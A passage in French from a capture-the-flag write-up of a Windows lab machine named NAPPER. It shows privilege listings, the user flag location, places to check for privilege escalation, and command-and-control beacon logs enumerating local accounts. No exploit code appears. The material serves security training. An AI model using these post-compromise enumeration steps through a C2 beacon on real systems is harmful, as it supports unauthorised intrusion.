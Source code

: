 ```txt
PRIVILEGES INFORMATION
----------------------
Privilege Name                            Description                                                        State   
========================================= ================================================================== ========
SeShutdownPrivilege                       Shut down the system                                               Disabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled 
SeUndockPrivilege                         Remove computer from docking station                               Disabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Disabled
SeTimeZonePrivilege                       Change the time zone                                               Disabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Disabled
```

Après avoir récupéré le flag user à `C:\Users\ruben\Desktop\user.txt`, on commence à chercher aux endroits habituels pour pour trouver un moyen de privesc:

* `C:\inetpub` (là où est stocké le code et les données d'un serveur IIS)
* `C:\Users\ruben` (Le dossier utilisateur)
* `C:\Program Files\` (Le dossier d'installation des programmes par défault)

On peut aussi lister les utilisateurs locaux:

```txt
[02/04 10:47:52] beacon> shell net user
[02/04 10:47:52] [*] Tasked beacon to run: net user
[02/04 10:47:52] [+] host called home, sent: 39 bytes
[02/04 10:47:52] [+] received output:

User accounts for \\NAPPER

-------------------------------------------------------------------------------
Administrator            backup                   DefaultAccount           
example                  Guest                    ruben                    
WDAGUtilityAccount       
The command completed successfully.

[02/04 10:46:28] beacon> shell net user backup
[02/04 10:46:28] [*] Tasked beacon to run: net user backup
[02/04 10:46:28] [+] host called home, sent: 46 bytes
[02/04 10:46:28] [+] received output:
User name                    backup
Full Name                    backup
Comment                      
User's comment               
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            2/4/2024 7:42:36 AM
Password expires             Never
Password changeable          2/4/2024 7:42:36 AM
Password required            Yes

User may change password     Yes

Workstations allowed         All
Logon script                 
User profile                 
```
